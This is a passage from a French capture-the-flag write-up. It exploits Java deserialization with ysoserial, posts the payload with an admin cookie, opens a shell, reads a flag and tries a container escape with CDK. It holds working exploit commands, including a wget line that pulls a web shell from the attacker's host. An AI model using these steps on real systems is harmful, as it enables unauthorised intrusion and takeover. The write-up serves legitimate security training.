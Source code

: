 ```bash
java -jar ysoserial-all.jar CommonsCollections7 'curl http://192.168.56.1/' > data.bin
```

Avec mon payload sérialisé écrit dans un fichier, il ne reste plus qu'à l'envoyer sur l'endpoint :

```console
$ curl -X POST http://192.168.56.139:8080/deserialize \
    -H "Content-Type: application/octet-stream" \
    -H "Cookie: auth=admin:S+jYmswX8+Lnl8Y+X7auaMMN5AHvFyKZMJluN/qPCFI=;" \
    --data-binary @data.bin
{"timestamp":"2025-07-19T19:05:31.220+0000","status":404,"error":"Not Found","message":"No message available","path":"/deserialize"}
```

La réponse retournée est surprenante (on penserait trouver un statut de réussite) mais j'ai bien reçu une requête sur mon serveur web.

Je saute ici l'étape d'utilisation de `reverse-ssh` en mode connect-back.

Une fois un shell obtenu, je confirme la présence du container et récupère le premier flag :

```console
bash-4.4# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
bash-4.4# hostname
3debe9b825c8
bash-4.4# cat /root/user.txt 
flag{ce6560c893e5cfec48e0fd186dc03718}
```

Qui dit container, dit utilisation du couteau suisse [GitHub - cdk-team/CDK: 📦 Make security testing of K8s, Docker, and Containerd easier.](https://github.com/cdk-team/CDK).

Cet outil va me permettre de voir si je peux m'échapper du container :

```console
bash-4.4# ./cdk_linux_amd64 auto-escape "wget http://192.168.56.1/shell.php -o /var/www/html/shell.php"
2025/07/19 19:36:33 Caution: Flag auto-escape is deprecated as of CDK v1.5.1, and will be archived in v2.0. We recommend migrating to `./cdk eva --full` and `./cdk run`.

[Auto Escape - Privileged Container]
2025/07/19 19:36:33 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 00000000a80425fb
        CapEff: 00000000a80425fb
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x00000000a80425fb = CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
[*] Maybe you can exploit the Capabilities below:
2025/07/19 19:36:33 not privileged container.

[Auto Escape - Shared Net Namespace]
2025/07/19 19:36:33 Cannot find vulnerable containerd-shim socket.
2025/07/19 19:36:33 exploit failed.

[Auto Escape - docker.sock]
2025/07/19 19:36:33 err found while stat docker.sock path.:
stat /var/run/docker.sock: no such file or directory
```